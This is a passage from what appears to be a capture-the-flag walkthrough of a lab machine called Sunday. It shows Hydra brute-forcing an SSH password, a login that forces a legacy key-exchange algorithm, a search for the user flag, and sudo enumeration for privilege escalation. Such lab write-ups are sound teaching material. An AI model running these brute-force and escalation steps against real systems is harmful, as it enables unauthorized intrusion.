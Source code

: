 - **-l:** username

- **-P:** password file

- **-s:** port

We get back the following result showing us that Sunny’s password is “sunday”.

```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
....
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
....
```

SSH into Sunny’s account.

```
ssh -p 22022 sunny@10.10.10.76
```

We get the following error.

```
Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```

The error tells us that the client and server were unable to agree on the key exchange algorithm. The server offered three legacy algorithms for key exchange. So we’ll have to choose one of these algorithms in order to login.

```
ssh -oKexAlgorithms=diffie-hellman-group1-sha1 -p 22022 sunny@10.10.10.76
```

- **-oKexAlgorithms: **enable a key exchange algorithm that is disabled by default

We’re in! Locate the user.txt flag and try to view it.

```
sunny@sunday:~$ find / -name  user.txt 2>/dev/null
/export/home/sammy/Desktop/user.txt

sunny@sunday:~$ cat /export/home/sammy/Desktop/user.txt
cat: /export/home/sammy/Desktop/user.txt: Permission denied
```

We need to escalate our privileges to Sammy.

# Privilege Escalation

Run the following command to view the list of allowed commands that the user can run with root privileges.

```
sunny@sunday:~$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll
```
